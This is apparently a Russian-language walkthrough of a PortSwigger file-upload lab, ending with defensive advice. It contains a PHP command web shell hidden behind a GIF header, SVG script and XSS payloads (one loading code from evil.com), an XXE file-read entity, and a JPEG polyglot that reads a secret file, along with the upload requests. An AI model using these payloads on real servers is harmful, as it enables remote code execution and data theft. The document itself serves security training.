





#### случаи когда сервер проверяет содержимое файла по его размеру и ключевыми компонентам-сигнатурам внутри!

Вместо того, чтобы неявно доверять `Content-Type`, указанному в запросе, более безопасные серверы пытаются убедиться, что содержимое файла действительно соответствует ожидаемому.

В случае функции загрузки изображения сервер может попытаться проверить определенные внутренние свойства изображения, такие как его размеры. Например, если вы попытаетесь загрузить скрипт PHP, у него вообще не будет никаких размеров. Поэтому сервер может сделать вывод, что это не может быть изображение, и соответствующим образом отклонить загрузку.

Аналогичным образом, определенные типы файлов всегда могут содержать определенную последовательность байтов в своем нижнем или нижнем колонтитуле. Они могут быть использованы как отпечаток пальца или подпись, чтобы определить, соответствует ли содержимое ожидаемому типу. Например, файлы JPEG всегда начинаются с байтов `FF D8 FF`.

Это гораздо более надежный способ проверки типа файла, но даже это не является надежным. Используя специальные инструменты, такие как ExifTool, может быть тривиально создать полиглотный файл JPEG, содержащий вредоносный код в своих метаданных.

-------

У каждого формата файлов есть уникальная сигнатура в начале. Например:

- JPEG начинается с байтов `FF D8 FF`
    
- PNG начинается с `PNG`
    
- GIF начинается с `GIF87a` или `GIF89a`

------

## Но и это можно обойти - через полиглоты

Полиглот - это файл, который одновременно является валидным изображением И содержит вредоносный код. Он проходит проверку сигнатур как картинка, но при определенных условиях код выполняется.

- Берется обычный валидный JPEG-файл
   
- В его метаданные (поле Comment) вставляется PHP-код
   
- ExifTool сохраняет результат с расширением .php

------

Свежий пример CVE-2025-58440 [](https://github.com/ph-hitachi/CVE-2025-58440): атакующие добавляли `GIF89a;` в начало файла, и сервер воспринимал его как GIF-изображение. Потом код выполнялся
```c
GIF89a;
<?php system($_GET['cmd']); ?>
```

------

# В SVG код можно вставлять несколькими способами - Вот основные варианты:

## 1. Через тег `<script>`

Самый простой и прямой способ. Вставляешь в любое место SVG:
```xml
<svg ...>
  <script>
    alert('XSS тут');
  </script>
  ... остальной код картинки ...
</svg>
```

Или с вызовом внешнего скрипта:
```xml
<svg ...>
  <script xlink:href="http://evil.com/exploit.js"></script>
</svg>
```

## 2. В событийные атрибуты (onload, onerror)

Можно вставить код прямо в атрибуты тегов:
```xml
<svg ...>
  <circle cx="50" cy="50" r="40" onload="alert('XSS')" />
</svg>
```
Или даже так:
```xml
<svg ... onload="alert('XSS')">
  <rect width="100" height="100"/>
</svg>
```
## 3. Через CDATA для сложного кода

Если нужно вставить сложный PHP-код или скрипт с спецсимволами, используй CDATA:
```xml
<svg ...>
  <script>
    <![CDATA[
      <?php echo file_get_contents('/home/carlos/secret'); ?>
    ]]>
  </script>
</svg>
```

 можно вставить код например в самом начале, после открывающего тега `<svg>`:
```xml
<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
  <script>
    <![CDATA[
      <?php echo file_get_contents('/home/carlos/secret'); ?>
    ]]>
  </script>
  <g clip-path="url(#clip0_129_28)">
    ... остальной код ...
  </g>
</svg>
```

```xml
<svg width="136" height="136" onload="alert('XSS')" ...>
  ...
</svg>
```
## 5. Для XXE атак

Если цель - XXE, то DOCTYPE объявляется в самом начале:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg ...>
  <text>&xxe;</text>
</svg>
```


----------------


## ЗАПУСКАЮ ЛАБУ!

ЛАБА https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload
в лабе происходит проверка содержимого загрузки файла!

задание: вытащить файл /home/carlos/secret

---------

на сайте - есть форму для загрузки картинок


в html вижу, что скорее всего сервер будет требовать тип svg 
вот кусок html этой стр - что выше на скрине
```html
<p>

</p>
```

и вот мой запрос на загрузку svg файла на сервер
успешно загрузил svg файл на сервер - 
```http
POST /my-account/avatar HTTP/2
Host: 0ae300e6047a97c280ba30e700da00be.web-security-academy.net
Cookie: session=JIrPylDnS6mAk90OO0etOuCb17mfo7r0
Content-Length: 20150
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0afc002004dca252803df817000e0068.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryujFadS2mkDYZPDCW
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afc002004dca252803df817000e0068.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundary9bncTtyb9LEluj2F
Content-Disposition: form-data; name="avatar"; filename="Frame 14.svg"
Content-Type: image/svg+xml

<svg width="136" height="136" viewBox="0 0 136 136" fill="none" xmlns="http://www.w3.org/2000/svg">
<g clip-path="url(#clip0_129_28)">
<rect width="136" height="136" fill="white"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 136C30.4446 136 0 105.555 0 68Z" fill="url(#paint0_linear_129_28)" fill-opacity="0.2"/>
<path d="M0 68C0 30.4446 30.4446 0 68 0C105.555 0 136 30.4446 136 68C136 105.555 105.555 136 68 

...   здесь сам svg файл (обрезал его для отчета)   ...

ar_129_28" x1="34.4658" y1="102.508" x2="42.8616" y2="141.434" gradientUnits="userSpaceOnUse">
<stop offset="1"/>
</linearGradient>
<linearGradient id="paint1_linear_129_28" x1="68.0548" y1="-34.6861" x2="68.0548" y2="107.54" gradientUnits="userSpaceOnUse">
<stop stop-color="#F5F5F5"/>
<stop offset="0.452924" stop-color="#44A050"/>
<stop offset="1" stop-color="#171A17"/>
</linearGradient>
<clipPath id="clip0_129_28">
<rect width="136" height="136" fill="white"/>
</clipPath>
</defs>
</svg>

------WebKitFormBoundary9bncTtyb9LEluj2F
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary9bncTtyb9LEluj2F
Content-Disposition: form-data; name="csrf"

XFDogtsQa01jfgdFdOxyuTJgk1v1XqQP
------WebKitFormBoundary9bncTtyb9LEluj2F--

```

ну и по этому запросу можно получить с сервера мою загруженную картинку
`GET /files/avatars/Frame%2014.svg HTTP/2`

но не получилось загрузить мой чистый SVG файл, хотя везде в коде написано, что принимает только svg
вот такая ошибка `Error: file is not a valid image Sorry, there was an error uploading your file.`
наверно - сделана специально!

но зато успешно загружается на сервер тип jpg

```c
Content-Disposition: form-data; name="avatar"; filename="IMG_2018.jpg"
Content-Type: image/jpeg
```

и успешно этим запросом вытягивается c сервера!
`https://0ae300e6047a97c280ba30e700da00be.web-security-academy.net/files/avatars/IMG_2018.jpg`


--------

ИТАК - ЧТО Я ИМЕЮ

СЕРВЕР ПРИНИМАЕТ JPEG

могу его и грузить и скачивать

и знаю это :  JPEG начинается с байтов `FF D8 FF`

-------


сам запрос отправки jpeg - выглядит страшно, там почти, почти - одна бинарщина!

вот выглядит так начало запроса




вот так конец запроса
всего 280 тыс символов




короче говоря вот эти байты = это и есть  сигнатура JPEG , что начинается с байтов `FF D8 FF`

идет сперва сигнатура
потом метаданные разные

потом пошли байты - самого изображения




------------

------

apache и nginx по умолчанию настроены на выполнение php, потому что это основной язык для веба на многих хостингах  
python и js обычно не выполняются напрямую сервером - для python нужен wsgi, для js нужен node.js

---------

пробую прокинуть веб шел через php
`<?php echo file_get_contents('/home/carlos/secret'); ?>`
буду пробовать его подсунуть или в  метаданные или между ними и бинарщиной

-------

оказалось все проще, чем я думал
я разместил пейлоад  `<?php echo file_get_contents('/home/carlos/secret'); ?>` вот так: между метаданными и  началом бинарного кода картинки
ну и + поменял расширение на .php 
`Content-Disposition: form-data; name="avatar"; filename="IMG_2018.php"`
и отправил запрос!




далее стандартным запросом я скачал картинку обратно
```http
GET /files/avatars/IMG_2018.php HTTP/2
Host: 0ae300e6047a97c280ba30e700da00be.web-security-academy.net
Cookie: session=JIrPylDnS6mAk90OO0etOuCb17mfo7r0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ae300e6047a97c280ba30e700da00be.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=2, i

```

и в ответе я получил нетронутую картинку!!! которая грузилась и отображалась, как обычная картинка!

но внутри, между метаданными и началом бинарщины - был результат пейлоада!
флаг!
YZoyHpzLBu6PIKnS48iT5sDH66VOw7se

красота




флаг YZoyHpzLBu6PIKnS48iT5sDH66VOw7se получен

лаба выполнена!!

я также пробовал размещать свой пейлоад в разные другие части запроса, но лаба уже нормально не функционировала, и на любой, даже валидный запрос отвечала 403

---------

### выводы по этой классной лабе

сервер проверял только сигнатуру файла в начале, но игнорировал остальное содержимое  

сервер ожидал jpeg файл и смотрел на первые байты FF D8 FF - если они есть, файл считался валидным 

я взял обычную jpeg картинку, вставил php код прямо в середину между метаданными и бинарными данными изображения  

сигнатура в начале осталась нетронутой, поэтому сервер пропустил файл  

при этом я поменял расширение на .php, и когда обратился к файлу через браузер, сервер выполнил код  

в итоге между метаданными и бинарного мусора  картинки я получил секрет карлоса


#### защитa

нужно не просто проверять сигнатуру в начале, а полностью валидировать структуру файла  

перекодировать загруженные изображения через библиотеки типа GD, которые создадут чистое изображение без метаданных и посторонних вставок  

хранить загруженные файлы вне веб-рута и отдавать через скрипт с правильным content-type  

никогда не выполнять пользовательские файлы как код, даже если у них есть расширение .php